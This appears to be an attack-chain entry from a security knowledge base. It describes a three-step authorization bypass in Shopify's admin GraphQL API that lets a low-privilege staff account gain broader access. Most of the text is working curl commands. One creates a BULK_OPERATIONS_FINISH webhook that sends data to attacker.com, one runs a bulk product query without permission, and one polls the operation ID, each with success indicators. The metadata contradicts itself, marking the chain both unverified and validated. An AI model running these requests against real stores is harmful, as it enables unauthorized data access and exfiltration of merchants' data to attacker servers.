

---
tags:
  - broken-access-control
  - graphql
  - shopify
  - webhook
  - bulk-operations
  - authorization-bypass
  - data-exfiltration
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-01-01T00:00:00Z'
procedures:
  - >-
    [[procedures/Create-Unauthorized-Webhook-Subscription-for-BULK-OPERATIONS-FINISH]]
  - '[[procedures/Execute-Unauthorized-Bulk-Operation-Query-on-Products]]'
  - '[[procedures/Query-Current-Bulk-Operation-ID-Without-Permissions]]'
step_count: 3
techniques:
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:25:53.540Z'
description: >-
  Multi-stage attack exploiting broken access control in Shopify's GraphQL API
  to allow unauthorized staff to create webhooks, run bulk queries on sensitive
  data like products, and monitor operations, leading to potential data
  exfiltration via attacker-controlled endpoints.
skill_level: intermediate
impact_level: high
id: fc597e89-ae8c-4e4b-a8aa-1ddf21c376ba
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
---
# Shopify GraphQL Authorization Bypass for Unauthorized Bulk Operation Execution and Data Leakage

Multi-stage attack chain demonstrating a complete attack workflow exploiting authorization bypass in Shopify's admin GraphQL API. An unauthorized staff account can create webhooks to receive notifications on bulk operations, execute bulk queries to access sensitive product data, and query operation statuses, potentially leaking data to attacker-controlled servers when legitimate operations are triggered.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses direct HTTP requests, e.g., via curl or Postman)

### Target Environment

- Shopify admin GraphQL API endpoint (/admin/internal/web/graphql/core)
- Authenticated staff session (low-privilege account)
- Network access to the Shopify store's admin domain

### Initial Access Requirements

- Valid staff account credentials (no special permissions required due to bypass)
- Session cookies or API access token for authentication
- Attacker-controlled server to receive webhook callbacks

## Detailed Attack Procedures

### Step 1: Create Unauthorized Webhook Subscription
procedure: [[procedures/Create-Unauthorized-Webhook-Subscription-for-BULK-OPERATIONS-FINISH]]

**Objective**: Establish a webhook to receive notifications when bulk operations complete, enabling data interception without permissions.

**Instructions**: Use the [[commands/shopify-graphql-webhooksubscriptioncreate]] command to send the GraphQL mutation:

```bash
curl -X POST 'https://example.myshopify.com/admin/internal/web/graphql/core?operation=PageStaff' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: your-session-cookies' \
  -d '{"operationName": "webhookSubscriptionCreate", "variables": {"topic": "BULK_OPERATIONS_FINISH", "webhookSubscription": {"callbackUrl": "https://attacker.com/"}}, "query": "mutation webhookSubscriptionCreate($topic: WebhookSubscriptionTopic!, $webhookSubscription: WebhookSubscriptionInput!) { webhookSubscriptionCreate(topic: $topic, webhookSubscription: $webhookSubscription) { userErrors { field message } webhookSubscription { id } } }"}'
```

**Expected Output**: JSON response with webhookSubscription.id if successful, or userErrors array if failed.

**Success Indicators**:
- Webhook ID returned in response
- No permission errors in userErrors

### Step 2: Execute Unauthorized Bulk Operation Query
procedure: [[procedures/Execute-Unauthorized-Bulk-Operation-Query-on-Products]]

**Objective**: Run a bulk query to extract sensitive data like product IDs and titles without required permissions.

**Instructions**: Execute the [[commands/shopify-graphql-bulkoperationrunquery]] mutation to query products:

```bash
curl -X POST 'https://example.myshopify.com/admin/internal/web/graphql/core?operation=LoginNotificationsRead' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: your-session-cookies' \
  -d '{"query":"mutation { bulkOperationRunQuery( query: \\"{\\n products {\\n edges {\\n node {\\n id\\n title\\n }\\n }\\n }\\n}\\n\\" ) { bulkOperation { id status } userErrors { field message } } }","variables":null,"operationName":null}'
```

**Expected Output**: JSON with bulkOperation.id and status (e.g., "RUNNING"), or userErrors.

**Success Indicators**:
- Bulk operation ID returned
- Status indicates initiation without permission denial

### Step 3: Query Current Bulk Operation ID
procedure: [[procedures/Query-Current-Bulk-Operation-ID-Without-Permissions]]

**Objective**: Retrieve the ID and status of ongoing bulk operations to monitor and correlate with webhook notifications.

**Instructions**: Send the [[commands/shopify-graphql-currentbulkoperation]] query:

```bash
curl -X POST 'https://example.myshopify.com/admin/internal/web/graphql/core?operation=LoginNotificationsRead' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: your-session-cookies' \
  -d '{"query":"query { currentBulkOperation { id } }","variables":null,"operationName":null}'
```

**Expected Output**: JSON with currentBulkOperation.id.

**Success Indicators**:
- Operation ID returned
- Ability to poll for completion status

## Attack Chain Summary

### Key Achievements

1. Unauthorized webhook creation for sensitive bulk operation notifications
2. Execution of bulk queries exposing product data
3. Monitoring of operations leading to data leakage via webhooks when triggered by authorized users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2024-01-01T00:00:00Z*
